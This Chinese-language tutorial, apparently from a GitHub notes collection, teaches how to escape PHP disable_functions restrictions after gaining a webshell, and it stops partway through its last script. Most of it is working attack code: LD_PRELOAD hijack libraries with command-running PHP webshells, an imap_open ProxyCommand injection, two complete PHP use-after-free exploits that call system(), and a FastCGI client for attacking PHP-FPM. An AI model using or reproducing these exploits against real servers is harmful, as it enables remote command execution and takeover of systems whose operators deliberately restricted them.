



# 绕过disable_functions

有很多时候我们拿到一个shell却很无能为力



因为他禁用了太多，这时候我们就要去思考如何绕过

## 黑名单绕过

即便是通过disable functions限制危险函数，也可能会有限制不全的情况。如果运维人员安全意识不强或对PHP不甚了解的话，则很有可能忽略某些危险函数，常见的有以下几种

```php
exec()、shell_exec()、system()、passthru()、popen()、proc_open()、pcntl_exec
```

这几个函数具体如何执行命令，可自行搜索


## 利用 LD_PRELOAD 环境变量

### LD_PRELOAD简介

LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的攻击目的。

我们通过环境变量 LD_PRELOAD 劫持系统函数，可以达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。

### 利用条件

> 1. mail()函数和error_log()函数所调用的sendmail已安装
> 2. 不限制 /usr/sbin/sendmail 的执行
> 3. mail()函数和error_log()函数有一个未被禁用

### 劫持getuid()

前提是在Linux中已安装并启用sendmail程序。

php的mail()函数在执行过程中会默认调用系统程序/usr/sbin/sendmail，而/usr/sbin/sendmail会调用getuid()。如果我们能通过LD_PRELOAD的方式来劫持getuid()，再用mail()函数来触发sendmail程序进而执行被劫持的getuid()，从而就能执行恶意代码了。

- 编写一个原型为 uid_t getuid(void); 的 C 函数，内部执行攻击者指定的代码，并编译成共享对象 a.so；
- 运行 PHP 函数 putenv()，设定环境变量 LD_PRELOAD 为 a.so，以便后续启动新进程时优先加载该共享对象；
- 运行 PHP 的 mail() 函数，mail() 内部启动新进程 /usr/sbin/sendmail，由于上一步 LD_PRELOAD 的作用，sendmail 调用的系统函数 getuid() 被优先级更好的 a.so 中的同名 getuid() 所劫持；
- 达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的

首先编写test.c，劫持getuid()函数，获取LD_PRELOAD环境变量并预加载恶意的共享库，再删除环境变量 LD_PRELOAD，最后执行由EVIL_CMDLINE环境变量获取的系统命令

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int geteuid() {
        const char* cmdline = getenv("EVIL_CMDLINE");
        if (getenv("LD_PRELOAD") == NULL) { return 0; }
        unsetenv("LD_PRELOAD");
        system(cmdline);
}
```

当这个共享库中的getuid()被调用时，尝试加载payload()函数执行命令。

接着用以下语句编译C文件为共享对象文件：

```cmd
gcc -shared -fPIC test.c -o test.so
```

最后编写test.php：

```php
<?php
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```

这里接受3个参数，一是cmd参数，待执行的系统命令；二是outpath参数，保存命令执行输出结果的文件路径，便于在页面上显示，另外该参数，你应注意web是否有读写权限、web是否可跨目录访问、文件将被覆盖和删除等几点；三是sopath参数，指定劫持系统函数的共享对象的绝对路径。

这里通过putenv()函数将LD_PRELOAD环境变量设置为恶意的test.so、将自定义的EVIL_CMDLINE环境变量赋值为要执行的命令；然后调用mail()函数触发sendmail()，再通过sendmail()触发getuid()从而使恶意的test.so被加载执行；最后再输出内容到页面上并删除临时存放命令执行结果的文件。

访问test.php，输入相应的参数即可执行成功

### 劫持启动进程

第一种方法是劫持getuid()，是较为常用的方法，但存在缺陷：

- 目标Linux未安装或为启用sendmail；
- 即便目标可以启用sendmail，由于未将主机名添加进hosts中，导致每次运行sendmail都要耗时半分钟等待域名解析超时返回，www-data也无法将主机名加入hosts；

编写bypass_disablefunc.c

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```

接着用以下语句编译C文件为共享对象文件：

```cmd
gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc.so
```

bypass_disablefunc.php，代码和test.php一致：

```php
<?php
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```

## 利用imap_open()绕过

安装PHP的imap扩展：`apt-get install php-imap`；在php.ini中开启imap.enable_insecure_rsh选项为On；重启服务。

成功配置好环境后，在phpinfo中会看到如下信息：



### 基本原理

PHP 的imap_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的imap_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意shell命令。利用此漏洞的功能代码是Metasploit Framework的一部分。

exp如下，先判断是否存在imap_open()函数，然后构造exp执行通过外部GET输入的命令然后保存结果到本地文件中，最后输出结果文件内容，注意sleep(5)是为了等imap_open()函数执行完、因为该函数执行时需要DNS轮询会存在延时：

```php
<?php
error_reporting(0);
if (!function_exists('imap_open')) {
        die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
//$server = 'x -oProxyCommand=echo$IFS$()' . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . '|base64$IFS$()-d|sh}';
imap_open('{' . $server . ':143/imap}INBOX', '', ''); // or var_dump("\n\nError: ".imap_last_error());
sleep(5);
echo file_get_contents("/tmp/cmd_result");
?>
```

当然，替换空格符的\t也可以换成`$IFS$()`来Bypass掉。


## php-json-bypass

- 7.1 - all versions to date
- 7.2 < 7.2.19 (released: 30 May 2019)
- 7.3 < 7.3.6 (released: 30 May 2019)

```php
<?php
# 这里修改你的命令
$cmd = "id";
$n_alloc = 10; # increase this value if you get segfaults
class MySplFixedArray extends SplFixedArray {
    public static $leak;
}
class Z implements JsonSerializable {
    public function write(&$str, $p, $v, $n = 8) {
      $i = 0;
      for($i = 0; $i < $n; $i++) {
        $str[$p + $i] = chr($v & 0xff);
        $v >>= 8;
      }
    }
    public function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
    public function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }
    # unable to leak ro segments
    public function leak1($addr) {
        global $spl1;
        $this->write($this->abc, 8, $addr - 0x10);
        return strlen(get_class($spl1));
    }
    # the real deal
    public function leak2($addr, $p = 0, $s = 8) {
        global $spl1, $fake_tbl_off;
        # fake reference zval
        $this->write($this->abc, $fake_tbl_off + 0x10, 0xdeadbeef); # gc_refcounted
        $this->write($this->abc, $fake_tbl_off + 0x18, $addr + $p - 0x10); # zval
        $this->write($this->abc, $fake_tbl_off + 0x20, 6); # type (string)
        $leak = strlen($spl1::$leak);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }
    public function parse_elf($base) {
        $e_type = $this->leak2($base, 0x10, 2);
        $e_phoff = $this->leak2($base, 0x20);
        $e_phentsize = $this->leak2($base, 0x36, 2);
        $e_phnum = $this->leak2($base, 0x38, 2);
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = $this->leak2($header, 0, 4);
            $p_flags = $this->leak2($header, 4, 4);
            $p_vaddr = $this->leak2($header, 0x10);
            $p_memsz = $this->leak2($header, 0x28);
            if($p_type == 0x6474e552) { # PT_GNU_RELRO
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }
        if(!$data_addr || !$text_size || !$data_size)
            return false;
        return [$data_addr, $text_size, $data_size];
    }
    public function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = $this->leak2($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $text_size) {
                $deref = $this->leak2($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;
            $leak = $this->leak2($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $text_size) {
                $deref = $this->leak2($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
            return $data_addr + $i * 8;
        }
    }
    public function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = $this->leak2($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }
    public function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = $this->leak2($addr);
            $f_name = $this->leak2($f_entry, 0, 6);
            if($f_name == 0x6d6574737973) { # system
                return $this->leak2($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
    public function jsonSerialize() {
        global $y, $cmd, $spl1, $fake_tbl_off, $n_alloc;
        $contiguous = [];
        for($i = 0; $i < $n_alloc; $i++)
            $contiguous[] = new DateInterval('PT1S');
        $room = [];
        for($i = 0; $i < $n_alloc; $i++)
            $room[] = new Z();
        $_protector = $this->ptr2str(0, 78);
        $this->abc = $this->ptr2str(0, 79);
        $p = new DateInterval('PT1S');
        unset($y[0]);
        unset($p);
        $protector = ".$_protector";
        $x = new DateInterval('PT1S');
        $x->d = 0x2000;
        $x->h = 0xdeadbeef;
        # $this->abc is now of size 0x2000
        if($this->str2ptr($this->abc) != 0xdeadbeef) {
            die('UAF failed.');
        }
        $spl1 = new MySplFixedArray();
        $spl2 = new MySplFixedArray();
        # some leaks
        $class_entry = $this->str2ptr($this->abc, 0x120);
        $handlers = $this->str2ptr($this->abc, 0x128);
        $php_heap = $this->str2ptr($this->abc, 0x1a8);
        $abc_addr = $php_heap - 0x218;
        # create a fake class_entry
        $fake_obj = $abc_addr;
        $this->write($this->abc, 0, 2); # type
        $this->write($this->abc, 0x120, $abc_addr); # fake class_entry
        # copy some of class_entry definition
        for($i = 0; $i < 16; $i++) {
            $this->write($this->abc, 0x10 + $i * 8, 
                $this->leak1($class_entry + 0x10 + $i * 8));
        }
        # fake static members table
        $fake_tbl_off = 0x70 * 4 - 16;
        $this->write($this->abc, 0x30, $abc_addr + $fake_tbl_off);
        $this->write($this->abc, 0x38, $abc_addr + $fake_tbl_off);
        # fake zval_reference
        $this->write($this->abc, $fake_tbl_off, $abc_addr + $fake_tbl_off + 0x10); # zval
        $this->write($this->abc, $fake_tbl_off + 8, 10); # zval type (reference)
        # look for binary base
        $binary_leak = $this->leak2($handlers + 0x10);
        if(!($base = $this->get_binary_base($binary_leak))) {
            die("Couldn't determine binary base address");
        }
        # parse elf header
        if(!($elf = $this->parse_elf($base))) {
            die("Couldn't parse ELF");
        }
        # get basic_functions address
        if(!($basic_funcs = $this->get_basic_funcs($base, $elf))) {
            die("Couldn't get basic_functions address");
        }
        # find system entry
        if(!($zif_system = $this->get_system($basic_funcs))) {
            die("Couldn't get zif_system address");
        }

        # copy hashtable offsetGet bucket
        $fake_bkt_off = 0x70 * 5 - 16;
        $function_data = $this->str2ptr($this->abc, 0x50);
        for($i = 0; $i < 4; $i++) {
            $this->write($this->abc, $fake_bkt_off + $i * 8, 
                $this->leak2($function_data + 0x40 * 4, $i * 8));
        }
        # create a fake bucket
        $fake_bkt_addr = $abc_addr + $fake_bkt_off;
        $this->write($this->abc, 0x50, $fake_bkt_addr);
        for($i = 0; $i < 3; $i++) {
            $this->write($this->abc, 0x58 + $i * 4, 1, 4);
        }
        # copy bucket zval
        $function_zval = $this->str2ptr($this->abc, $fake_bkt_off);
        for($i = 0; $i < 12; $i++) {
            $this->write($this->abc,  $fake_bkt_off + 0x70 + $i * 8, 
                $this->leak2($function_zval, $i * 8));
        }
        # pwn
        $this->write($this->abc, $fake_bkt_off + 0x70 + 0x30, $zif_system);
        $this->write($this->abc, $fake_bkt_off, $fake_bkt_addr + 0x70);
        $spl1->offsetGet($cmd);
        exit();
    }
}
$y = [new Z()];
json_encode([&$y]);
```

## php7-gc-bypass

PHP 7.0-7.3 disable_functions bypass PoC (*nix only)

```php
<?php

# PHP 7.0-7.3 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=72530
#
# This exploit should work on all PHP 7.0-7.3 versions
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
    global $abc, $helper;

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    class ryat {
        var $ryat;
        var $chtg;

        function __destruct()
        {
            $this->chtg = $this->ryat;
            $this->ryat = 1;
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; # increase this value if you get segfaults

    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_repeat('A', 79);

    $poc = 'a:4:{i:0;i:1;i:1;a:1:{i:0;O:4:"ryat":2:{s:4:"ryat";R:3;s:4:"chtg";i:2;}}i:1;i:3;i:2;R:5;}';
    $out = unserialize($poc);
    gc_collect_cycles();

    $v = [];
    $v[0] = ptr2str(0, 79);
    unset($v);
    $abc = $out[2][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);

    exit();
}
```


## 攻击 PHP-FPM 绕过 Disable_Functions

### 配合SSRF攻击PHP-FPM

想要分析它的攻击原理需要从FastCGI协议封装数据内容来看，这里仅对攻击原理做简要描述，[CGI 和 FastCGI 协议的运行原理](https://www.cnblogs.com/itbsl/p/9828776.html)这篇文章中详细介绍了FastCGI协议的内容，其攻击原理就是在设置环境变量实际请求中会出现一个`SCRIPT_FILENAME': '/var/www/html/index.php`这样的键值对，它的意思是php-fpm会执行这个文件，但是这样即使能够控制这个键值对的值，但也只能控制php-fpm去执行某个已经存在的文件，不能够实现一些[恶意代码](http://bbs.ichunqiu.com/portal.php)的执行。

而在php5.3.9后来的版本中，php增加了安全选项导致只能控制php-fpm执行一些php、php4这样的文件，这也增大了攻击的难度。但是好在php官方允许通过PHP_ADMIN_VALUE和PHP_VALUE去动态修改php的设置。

那么当设置php环境变量为:`auto_prepend_file = php://input;allow_url_include = On`,就会在执行php脚本之前包含`auto_prepend_file`文件的内容,`php://input`也就是POST的内容,这个我们可以在FastCGI协议的body控制为恶意代码，这样就在理论上实现了php-fpm任意代码执行的攻击。

PHP-FPM攻击脚本

```python
import socket
import random
import argparse
import sys
from io import BytesIO
import base64
import urllib
# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client
PY2 = True if sys.version_info.major == 2 else False
def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])
def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)
def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')
def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s
class FastCGIClient:
    """A Fast-CGI Client for Python"""
    # private
    __FCGI_VERSION = 1
    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3
    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11
    __FCGI_HEADER_SIZE = 8
    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3
    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
        if keepalive:
            self.keepalive = 1
        else:
            self.keepalive = 0
        self.sock = None
        self.requests = dict()
    def __connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(self.timeout)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        # if self.keepalive:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
        # else:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
        try:
            self.sock.connect((self.host, int(self.port)))
        except socket.error as msg:
            self.sock.close()
            self.sock = None
            print(repr(msg))
            return False
        return True
    def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
        length = len(content)
        buf = bchr(FastCGIClient.__FCGI_VERSION) \
               + bchr(fcgi_type) \
               + bchr((requestid >> 8) & 0xFF) \
               + bchr(requestid & 0xFF) \
               + bchr((length >> 8) & 0xFF) \
               + bchr(length & 0xFF) \
               + bchr(0) \
               + bchr(0) \
               + content
        return buf
    def __encodeNameValueParams(self, name, value):
        nLen = len(name)
        vLen = len(value)
        record = b''
        if nLen < 128:
            record += bchr(nLen)
        else:
            record += bchr((nLen >> 24) | 0x80) \
                      + bchr((nLen >> 16) & 0xFF) \
                      + bchr((nLen >> 8) & 0xFF) \
                      + bchr(nLen & 0xFF)
        if vLen < 128:
            record += bchr(vLen)
        else:
            record += bchr((vLen >> 24) | 0x80) \
                      + bchr((vLen >> 16) & 0xFF) \
                      + bchr((vLen >> 8) & 0xFF) \
                      + bchr(vLen & 0xFF)
        return record + name + value
    def __decodeFastCGIHeader(self, stream):
        header = dict()
        header['version'] = bord(stream[0])
        header['type'] = bord(stream[1])
        header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
        header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
        header['paddingLength'] = bord(stream[6])
        header['reserved'] = bord(stream[7])
        return header
    def __decodeFastCGIRecord(self, buffer):
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))
        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''
            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record
    def request(self, nameValuePairs={}, post=''):
        if not self.__connect():
            print('connect failure! please check your fasctcgi-server !!')
            return
        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)
        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)
        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)
        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)
    def gopher(self, nameValuePairs={}, post=''):
        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)
        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)
        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)
        return request
    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf
        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']
    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)
    parser.add_argument('-e', '--ext', help='ext absolute path', default='')
    parser.add_argument('-if', '--include_file', help='evil.php absolute path', default='')
